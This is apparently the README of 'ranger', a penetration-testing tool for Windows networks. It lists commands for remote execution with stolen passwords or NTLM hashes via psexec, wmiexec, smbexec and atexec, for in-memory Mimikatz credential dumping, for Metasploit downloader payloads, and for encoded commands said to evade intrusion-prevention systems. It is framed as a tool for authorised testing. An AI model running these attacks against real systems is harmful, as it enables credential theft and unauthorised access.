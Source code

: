 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  
##Command Execution:
###Find Logged In Users:
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout

###SMBEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv

###PSEXEC Command Shell:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv

###PSEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv

###WMIEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"

###WMIEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker

###WMIEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader

###WMIEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"

###ATEXEC Command Execution:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder

###ATEXEC PowerShell Mimikatz Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder

###ATEXEC Metasploit web_downloader Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder

###ATEXEC Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder

###SECRETSDUMP Custom Code Memory Injector:
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump

###Create Pasteable Mimikatz Attack:
ranger.py --invoker -q -v -vv -vvv

###Create Pasteable web_downloader Attack:
ranger.py --downloader -q -v -vv -vvv

###Create Pasteable Executor Attack:
ranger.py --executor -q -v -vv -vvv

##Notes About Usage:
###Cred File Format:
*You can pass it a list of usernames and passwords or hashes in the following format in the same file:
```username password
username LM:NTLM
username :NTLM
username **NO PASSWORD**:NTLM
PWDUMP
username PWDUMP domain
username password domain
username LM:NTLM domain
username :NTLM  domain
username **NO PASSWORD**:NTLM domain
PWDUMP domain
username PWDUMP domain```

###Cred File Caveats:
*If you provide domain names in the file they will be used instead of the default WORKGROUP.  
*If you supply the domain name by command line (-d), it will infer that you want to ignore all the domain names in the file.

###Command Line Execution:
*If you do not want to use the file you can pass the details through command line directly.
*If you wish to supply hashes instead of passwords just pass them through the password argument.  
*If they are PWDUMP format and you supply no username it will pull the username out of the hash.  
*If you supply a username it will think that the same hash applies to a different user.

###Targets and Target Lists:
*You can provide a list of targets either by using a target list or through the target option.  
*You can supply multiple target list files by comma separating them and it will aggregate the data and remove duplicates and then exclude your IP address from the default interface or the interface you provide. 
*The tool accepts, CIDR notations, small ranges (192.168.195.1-100) or large ranges (192.168.194.1-192.163.1.1) or single IP addresses.  
*Again just comma separating them by command line or put them in a new line delimited file.

###Exclusions and Exclusion Lists:
*You can exclude targets using the exclude arguments as well, so if you do not touch a little Class C out of a Class A it will figure that out for you.

###Anti-Virus
*Mimikatz, Downloader and Executor use PowerShell memory injection by calling other services and protocols.  The commands are double encoded and bypass current IPS solutions.  
*ATEXEC is the only one that currently lands on disk and does not encode, I still have some rewriting to do still.

###NMAP
*The nmap XML feed is still in DRAFT and it is not functioning yet. 
